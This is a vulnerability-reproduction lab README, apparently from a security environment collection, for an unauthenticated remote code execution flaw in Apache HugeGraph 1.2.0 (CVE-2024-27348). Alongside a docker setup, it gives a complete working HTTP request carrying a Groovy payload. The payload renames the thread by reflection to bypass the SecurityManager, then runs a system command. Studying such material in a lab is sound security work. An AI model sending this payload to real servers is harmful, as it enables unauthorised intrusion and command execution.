

# Apache HugeGraph Unauthenticated Remote Code Execution (CVE-2024-27348)

[中文版本(Chinese version)](README.zh-cn.md)

Apache HugeGraph is a fast and highly scalable graph database. It provides graph database capabilities with complete features, excellent performance, and enterprise-level reliability.

A remote code execution vulnerability exists in the Gremlin API of HugeGraph. Gremlin is a graph traversal language that can be implemented in various programming languages such as Groovy, Python, and Java. An attacker is able to use Gremlin API to execute Groovy based Gremlin commands without authentication, which can be used to execute arbitrary commands.

In theory, Apache HugeGraph will use the SecurityManager to restrict the Groovy scripts submitted by users. But the SecurityManager only checks thread names that start with "gremlin-server-exec" or "task-worker". This mechanism can be bypassed by using reflection to modify the current thread name, allowing arbitrary code execution.

References:

- <https://blog.securelayer7.net/remote-code-execution-in-apache-hugegraph/>
- <https://www.vicarius.io/vsociety/posts/remote-code-execution-vulnerability-in-apache-hugegraph-server-cve-2024-27348>
- <https://github.com/Zeyad-Azima/CVE-2024-27348>

## Environment Setup

Execute the following command to start a vulnerable HugeGraph server 1.2.0:

```
docker compose up -d
```

After the server is started, you can access the HugeGraph RESTful API at `http://your-ip:8080`.

## Vulnerability Reproduce

Send a malicious Gremlin query through the Gremlin API endpoint to execute arbitrary commands:

```
POST /gremlin HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 777

{
    "gremlin": "Thread thread = Thread.currentThread();Class clz = Class.forName(\"java.lang.Thread\");java.lang.reflect.Field field = clz.getDeclaredField(\"name\");field.setAccessible(true);field.set(thread, \"SL7\");Class processBuilderClass = Class.forName(\"java.lang.ProcessBuilder\");java.lang.reflect.Constructor constructor = processBuilderClass.getConstructor(java.util.List.class);java.util.List command = java.util.Arrays.asList(\"id\");Object processBuilderInstance = constructor.newInstance(command);java.lang.reflect.Method startMethod = processBuilderClass.getMethod(\"start\");org.apache.commons.io.IOUtils.toString(startMethod.invoke(processBuilderInstance).getInputStream());",
    "bindings": {},
    "language": "gremlin-groovy",
    "aliases": {}
}
```

The command will be executed successfully:


